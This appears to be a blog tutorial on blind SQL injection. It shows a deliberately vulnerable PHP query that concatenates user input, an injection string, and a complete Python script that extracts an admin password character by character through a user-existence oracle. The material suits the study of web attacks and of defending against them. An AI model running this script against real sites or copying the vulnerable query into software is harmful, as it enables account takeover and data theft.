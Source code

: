 ```yaml
---
title:  "SQL Oracle"
date:   2016-03-08 21:30
categories: security
tags: security code
---
```

Lets assume we stumble upon a web application that lets you query if a user
exists.

The underlying database, if it was badly designed, like a lot of web
applications are, could look like this:
{% highlight sql %}
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
{% endhighlight %}
The first and major fault is, that the password is not encrypted, which would
increase the computing complexity a lot. But our application is what it is.

The webapplication has a form field in which one can input a user name and a
button to submit the query. It checks for a user in the database like this:
{% highlight php %}
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
{% endhighlight %}

Next major fault: no input sanitation. What we see here opens up a hole so big
that we need to use SQL injection. The application forces this on us, basically.

But our brave application developer keeps on going. So if a user was found it
returns a HTML site containing a string like  "This user exists.". We use this
as a oracle for guessing a password.

So lets start to automate this. We already guessed a user name in our case
'admin'.
{% highlight python %}
username = 'admin" and password like binary "'
submit = "Check existence"
{% endhighlight %}

We use the `binary` SQL operator to distinguish between upper and lower case
in SQL queries.

We prepare also our possible character set:

{% highlight python %}
string=''.join(ch for ch in string.printable)
{% endhighlight %}
Since this should be a human readable password, we only need printable
characters.

Now lets put together a function to try our passwords:
{% highlight python %}
def try_password(password):
    sql_injection = username+password
    data = {
        "username":sql_injection,
        "submit":submit
        }
    encoded_data=urllib.urlencode(data)
    request = urllib2.Request("https://example.com/testuser")
    return urllib2.urlopen(request,encoded_data)
{% endhighlight %}
We pass our password candidate to this function. We create a `data` map which will hold the form data. We then encode it and send it over the wire. What ever comes back will hold the information we need.

Lets finalize this by writing the bruteforce function and checking for
completion:
{% highlight python %}
while True:
    for ch in string:
        testname = bruteforce+(ch+"%")
        content = try_password(testname)
        if "This user exists" in content.readlines()[13]:
            bruteforce += ch
            print bruteforce
            if "This user exists." in try_password(bruteforce).readlines()[13]:
                print 'Password is: %s' % bruteforce
                sys.exit(0)
            break
{% endhighlight %}
We iterate over all the characters in our string, and append this and a "%", the
SQL wildcard character, to our already confirmed password. As soon as we find a
matching character we append it to our already known part of the string, and
print it so we see some progress. We then try again to see if we are already
done. For this we simple omit the wildcard character.

The complete script looks like this:
{% highlight python %}
import urllib,urllib2,base64
import string, sys

username = 'admin" and password like binary "'
submit = "Check existence"

bruteforce = ''
string=''.join(ch for ch in string.printable if ch.isalnum())

def try_password(password):
    sql_injection = username+password
    data = {
        "username":sql_injection,
        "submit":submit
        }
    encoded_data=urllib.urlencode(data)
    request = urllib2.Request("https://example.com/testuser")
    return urllib2.urlopen(request,encoded_data)

while True:
    for ch in string:
        testname = bruteforce+(ch+"%")
        content = try_password(testname)
        if "This user exists" in content.readlines()[13]:
            bruteforce += ch
            print bruteforce
            if "This user exists." in try_password(bruteforce).readlines()[13]:
                print 'Password is: %s' % bruteforce
                sys.exit(0)

            break
{% endhighlight %}
